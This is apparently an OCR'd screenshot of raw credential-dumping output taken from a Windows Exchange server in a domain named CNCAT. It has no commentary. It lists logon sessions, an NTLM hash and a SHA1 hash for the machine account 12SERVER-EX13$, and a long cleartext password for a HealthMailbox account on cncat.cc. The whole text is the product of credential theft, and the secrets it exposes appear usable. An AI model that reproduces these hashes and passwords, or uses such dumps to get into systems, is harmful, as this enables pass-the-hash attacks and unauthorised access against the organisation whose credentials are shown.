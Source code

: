 Domain            : (null)

Logon Server      : (null)

Logon Time        : 2021/4/28 19:52:06

SID               :

       msv:     

        [00000003] Primary

        * Username : 12SERVER-EX13$

        * Domain  : CNCAT

        * NTLM    : 7e0ebfdc16be2cf7652792713162d817

        * SHA1    : a413aeaf7935bab126af11ad8a1221651217e014

       tspkg:   

       wdigest:

       kerberos:     

       ssp:

        [00000000]

        * Username : HealthMailbox3f7d5b8296944b708823d775f3d09aef@cncat.cc

        * Domain  : (null)

        * Password :$9u-LyPp5[j.UeS!I!xb&dpQD5ynJi3*UE3gaMLrcB-UsErNKa+DX%5>@9)b@W.;Mww8ONUuWDxnRi1Q@CAaGCKID$5gY}#XRd%^@wXflBE+wUa==]zsJz%dG@7S+pVq

        [00000001]

        * Username : HealthMailbox3f7d5b8296944b708823d775f3d09aef@cncat.cc

        * Domain  : (null)

        * Password :$9u-LyPp5[j.UeS!I!xb&dpQD5ynJi3*UE3gaMLrcB-UsErNKa+DX%5>@9)b@W.;Mww8ONUuWDxnRi1Q@CAaGCKID$5gY}#XRd%^@wXflBE+wUa==]zsJz%dG@7S+pVq

       credman:     

Authentication Id : 0 ; 999(00000000:000003e7)

Session           : UndefinedLogonType from 0

User Name         : 12SERVER-EX13$

Domain            : CNCAT

Logon Server      : (null)

Logon Time        : 2021/4/28 19:52:06

SID               : S-1-5-18

       msv:     

       tspkg:   
